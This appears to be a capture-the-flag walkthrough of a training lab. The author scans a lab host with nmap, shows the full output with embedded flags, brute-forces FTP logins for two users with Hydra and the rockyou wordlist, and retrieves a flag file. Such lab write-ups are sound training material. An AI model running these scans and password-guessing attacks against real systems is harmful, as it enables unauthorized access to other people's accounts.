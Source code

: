 #CTF 

Use this challenge to test your mastery of the skills you have acquired in the Network Security module. All the questions in this challenge can be solved using only `nmap`, `telnet`, and `hydra`.

## Recon

So we are going to scan this machine with [[Nmap]] as usual. But the questions ask for a non common port so I am going to run nmap with 
`nmap -sC -sV -p- -T4 --min-rate=9326 -vv [ip]`
The results are:

```
Discovered open port 80/tcp on 10.10.80.102
Discovered open port 22/tcp on 10.10.80.102
Discovered open port 139/tcp on 10.10.80.102
Discovered open port 8080/tcp on 10.10.80.102
Discovered open port 445/tcp on 10.10.80.102
Discovered open port 10021/tcp on 10.10.80.102
Completed SYN Stealth Scan at 14:55, 9.78s elapsed (65535 total ports)
Initiating Service scan at 14:55
Scanning 6 services on ip-10-10-80-102.eu-west-1.compute.internal (10.10.80.102)
Completed Service scan at 14:57, 121.17s elapsed (6 services on 1 host)
NSE: Script scanning 10.10.80.102.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 14:57
Completed NSE at 14:57, 3.04s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 14:57
Completed NSE at 14:57, 1.02s elapsed
Nmap scan report for ip-10-10-80-102.eu-west-1.compute.internal (10.10.80.102)
Host is up, received arp-response (0.00062s latency).
Scanned at 2023-05-01 14:55:13 BST for 135s
Not shown: 65529 closed ports
Reason: 65529 resets
PORT      STATE SERVICE       REASON         VERSION
22/tcp    open  ssh           syn-ack ttl 64 (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
80/tcp    open  http          syn-ack ttl 64 lighttpd
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd THM{web_server_25352}
|_http-title: Hello, world!
139/tcp   open  netbios-ssn?  syn-ack ttl 64
| fingerprint-strings: 
|   SMBProgNeg: 
|_    SMBr
445/tcp   open  microsoft-ds? syn-ack ttl 64
| fingerprint-strings: 
|   SMBProgNeg: 
|_    SMBr
8080/tcp  open  http          syn-ack ttl 64 Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
10021/tcp open  ftp           syn-ack ttl 64 vsftpd 3.0.3
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22-TCP:V=7.60%I=7%D=5/1%Time=644FC4D1%P=x86_64-pc-linux-gnu%r(NULL,
SF:29,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port139-TCP:V=7.60%I=7%D=5/1%Time=644FC4D6%P=x86_64-pc-linux-gnu%r(SMBP
SF:rogNeg,29,"\0\0\0%\xffSMBr\0\0\0\0\x88\x03@\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:@\x06\0\0\x01\0\x01\xff\xff\0\0");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port445-TCP:V=7.60%I=7%D=5/1%Time=644FC4D1%P=x86_64-pc-linux-gnu%r(SMBP
SF:rogNeg,29,"\0\0\0%\xffSMBr\0\0\0\0\x88\x03@\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:@\x06\0\0\x01\0\x01\xff\xff\0\0");
MAC Address: 02:5D:68:ED:0E:D5 (Unknown)
Service Info: OS: Unix

Host script results:
| nbstat: NetBIOS name: NETSEC-CHALLENG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   NETSEC-CHALLENG<00>  Flags: <unique><active>
|   NETSEC-CHALLENG<03>  Flags: <unique><active>
|   NETSEC-CHALLENG<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 12699/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 13823/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50120/udp): CLEAN (Failed to receive data)
|   Check 4 (port 36665/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-01 14:57:25
|_  start_date: 1600-12-31 23:58:45

```


Lots of information here, some questions of the challenge can be answered via this nmap.

## Connect

Next we have to connect on the FTP server and gain a flag. We have two usernames:
`eddie` and `quinn`
but no passwords, so we are going to use [[Hydra]] to find them. First I pass the usernames in a file with
`echo eddie > users.txt`
`echo quinn >> users.txt` and the I run Hydra with:
`hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -vV ftp://[ip]:10021`
And I get <font color=red> jordan</font> for eddie and <font color=red> andrea</font> for quinn

To login to those accounts we type:
`ftp [ip] [port, eg. 10021]`
type the username and the password. I couldn't find anything on eddies account, but quinn had a ftp_flag.txt, so I typed `get ftp_flag.txt` and got it locally.

Lastly I need to do a silent nmap scan to get the last flag. To do this we use `-sN` switch and get the flag.
